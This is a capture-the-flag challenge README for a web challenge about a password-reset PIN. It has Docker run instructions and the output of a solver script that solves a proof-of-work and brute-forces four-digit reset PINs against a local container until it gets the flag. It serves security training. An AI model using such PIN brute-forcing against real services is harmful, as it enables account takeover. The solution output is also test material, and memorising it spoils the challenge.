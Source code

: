 # Challenge 2
- **author:** [name]
- **category:** {Crypto, Pwn, Web, Forensics, Misc, OSINT}
- **difficulty:** {Easy, Medium, Hard, Expert}

## Description

Super secure authentication system v1, now supports password resets!


## Flag format

```text
GrizzCTF{...}
```

## Build instructions (if any):

```bash
cd Pin-in-the-bin/build
docker build -t pin-in-bin .
```

## Running the challenge container

```bash
docker run -d -it -p 5000:5000 pin-in-bin
```
- Port needed: $5000$

###### Solution


[solve.py](solution/solve.py)

**Output**

```bash
python3 solve.py
[*] Starting exploit against http://localhost:5000
[+] PoW challenge: 5646209db4df6df2 | CSRF: ImNiNjc2MDY1NzJjMTdiMzhiNjVjZTU3OTUzMjBhMmZiYjI3YWY0NjEi.Z2ilMw.6TnFzExdLo3_pjhMGT9DN8yC-s8
[+] PoW solved in 2036720 attempts (2.68s)
[+]     Solution = r8ee94ak
[+]     Hash = 00000014c864167cf839a4d2605d7d7d2f1a1478b269df19765dd647ca945b59
[+] Server accepted our PoW solution.
[*] Attempting forgot-password for admin@secureauth.com...
[-] Could not extract CSRF token from /forgot-password.
[*] Brute-forcing PINs 1000–2499...
[*] Brute-forcing PINs 2500–4999...
[*] Brute-forcing PINs 5000–7499...
[*] Brute-forcing PINs 7500–9999...
[-] Tried PINs 3400–3419...
[+] Found valid PIN = 1911
[+]     Attempts       = 920
[+]     Time           = 10.27 s
[+]     Flag           = GrizzCTF{br0k3n_2FA_n0_2FA}
[+] Challenge completed successfully!
[+] PIN  : 1911
[+] FLAG : GrizzCTF{br0k3n_2FA_n0_2FA}
```
